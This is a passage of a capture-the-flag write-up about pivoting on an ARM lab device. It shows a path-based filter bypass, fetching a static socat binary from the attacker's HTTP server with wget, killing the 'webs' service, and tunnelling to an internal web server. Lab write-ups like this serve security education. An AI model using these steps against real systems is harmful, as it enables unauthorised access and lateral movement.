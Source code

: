 >During the event, the filter could be bypasswed by setting an additional path to `/login.php`  
>E.G.: `http://IP:8080/login.php/123`  
>However, the machine was updated since then, forcing userts to use a tunnel.
{: .prompt-info }

To achieve a tunnel, we first need to upload the needed tools. I this case I used [Socat](https://github.com/therealsaumil/static-arm-bins/blob/master/socat-armel-static).

```shell
[niik@tuf504]-[~/] python -m http.server 9090
Serving HTTP on 0.0.0.0 port 9090 (http://0.0.0.0:9090/) ...
10.10.34.245 - - [20/Dec/2023 19:37:43] "GET /socat-armel-static HTTP/1.1" 200 -
```

```shell
# wget http://10.8.122.23:9090/socat-armel-static
wget http://10.8.122.23:9090/socat-armel-static
Connecting to 10.8.122.23:9090 (10.8.122.23:9090)
# mv socat-armel-static socat
mv socat-armel-static socat
# ./socat -V
./socat -V
socat by Gerhard Rieger and contributors - see www.dest-unreach.org
socat version 1.7.3.2 on May  6 2018 18:26:27
   running on Linux version #7 PREEMPT Sun Apr 18 13:52:32 IST 2021, release 2.6.28, machine armv5tejl
...SNIP...
```

After uploading Socat, we need to free port **50628** by killing _webs_:

```shell
# ps | grep webs
ps | grep webs
 4093 root       888 S    grep webs
29363 root      1476 S    webs
# kill 29363
kill 29363
#./socat tcp-listen:50628,fork,reuseaddr tcp:10.10.34.245:8080
./socat tcp-listen:50628,fork,reuseaddr tcp:10.10.34.245:8080
```

Once we kill _webs_ and start the tunnel, we can verify we have access.

```shell
[niik@tuf504]-[~/] curl http://10.10.34.245:50628/login.php
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>401 Unauthorized</title>
</head><body>
<h1>Unauthorized</h1>
<p>This server could not verify that you
are authorized to access the document
requested.  Either you supplied the wrong
credentials (e.g., bad password), or your
browser doesn't understand how to supply
the credentials required.</p>
<hr>
<address>Apache/2.4.57 (Debian) Server at 10.10.34.245 Port 50628</address>
</body></html>
```
While we can access the web service, we now get `401 Unauthorized`. To authorise ourselves, we can use simple HTTP authentication with the credentials from the previous task.
